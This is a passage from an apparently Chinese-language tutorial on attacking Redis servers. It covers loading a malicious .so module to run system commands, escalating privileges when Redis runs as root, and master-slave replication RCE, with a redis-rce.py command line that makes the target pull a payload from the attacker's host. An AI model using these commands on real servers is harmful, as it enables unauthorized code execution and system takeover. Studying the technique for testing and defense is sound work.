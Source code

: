 ```
module load /tmp/557.so    加载模块
system.exec "whoami"    执行命令
module list    查看现有模块
module unload system    删除模块
```

若目标以root权限启动redis，在实战中就可以利用这种方式进行一个提权。

##    主从复制rce

主从复制，是指将一台Redis服务器的数据，复制到其他的Redis服务器。前者称为主节点(master)，后者称为从节点(slave)；数据的复制是单向的，只能由主节点到从节点。

默认情况下，每台Redis服务器都是主节点；且一个主节点可以有多个从节点(或没有从节点)，但一个从节点只能有一个主节点。

主从复制RCE主要原理就是，攻击机通过协议认证成为主节点，目标redis服务器为从节点，通过全量复制将文件内容输出到目标服务器上(也就是写入so文件)。然后加载`.so`文件，完成命令执行。

必要条件：
*    redis版本 >= 4.x

利用过程了解了，实现只需要写一个脚本就可以了。

脚本下载：[redis_rce](https://github.com/Ridter/redis-rce)

执行脚本，填入本地ip，redis服务器ip，so文件，选择i可以直接交互执行命令。
```
python redis-rce.py -L 192.168.111.132 -r 192.168.111.135 -f 557.so
```
![](/img/redis/0ea86d00-b2cf-4b84-8408-20e29f052563.jpg)
